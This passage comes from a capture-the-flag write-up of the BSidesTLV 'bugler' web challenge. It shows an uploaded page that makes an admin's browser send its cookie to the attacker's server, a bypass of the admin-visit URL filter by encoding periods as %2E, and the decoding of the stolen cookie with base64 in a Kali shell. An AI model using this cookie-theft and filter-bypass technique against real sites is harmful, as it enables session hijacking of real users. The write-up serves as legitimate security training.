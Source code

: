 We upload the page and set the link our profile to point to it:

![](images/bugler5.png)

However, it turns out that the admin won't agree to visit this page if it's under `https://bugler.ctf.bsidestlv.com/upload/`. Fortunately, we are able to bypass that by replacing the periods with their encoded value (`%2E`):

![](images/bugler6.png)

Now we get a hit in our server:

```
/?cookie=QlNpZGVzVExWPTA0MTg1MTE0NDBlY2QwMmI5NWQzNTVlNzEyNjMwOGNjNWJjYzZlMmI=
```

Let's decode the cookie:

```console
root@kali:/media/sf_CTFs/bsidestlv/bugler# echo QlNpZGVzVExWPTA0MTg1MTE0NDBlY2QwMmI5NWQzNTVlNzEyNjMwOGNjNWJjYzZlMmI= | base64 -d
BSidesTLV=0418511440ecd02b95d355e7126308cc5bcc6e2b
```

This is the standard CTF cookie. Where is the website session cookie, like the one we get when we log in? 

```console
root@kali:/media/sf_CTFs/bsidestlv/bugler# curl -c - 'https://bugler.ctf.bsidestlv.com/login' \
>   -H 'Content-Type: application/x-www-form-urlencoded' \
>   -H 'Cookie: BSidesTLV=0418511440ecd02b95d355e7126308cc5bcc6e2b' \
>   --data-raw 'username=user1&password=1234567890'
<!DOCTYPE HTML PUBLIC "-//W3C//DTD HTML 3.2 Final//EN">
<title>Redirecting...</title>
<h1>Redirecting...</h1>
<p>You should be redirected automatically to target URL: <a href="/">/</a>.  If not click the link.# Netscape HTTP Cookie File
# https://curl.haxx.se/docs/http-cookies.html
# This file was generated by libcurl! Edit at your own risk.

#HttpOnly_bugler.ctf.bsidestlv.com      FALSE   /       FALSE   0       session .eJxdjTsOwjAQBe-yNYqz_mCHipqWEzzsRYqICQqEJsrdWbd0o3nSvI3Wtyx02ghffKBEZn1NM4oZJNow5BjYwUtOhq0_MgdfHCcfbnAOfWIbc-pdicLd5UoHkopx0swdDzk37vJc1Y9F5X9Tfft_ooquDZn2_QekfitY.Xv8e1A.qnqT3p441qbAKDrYKFVz6fcINzg
```
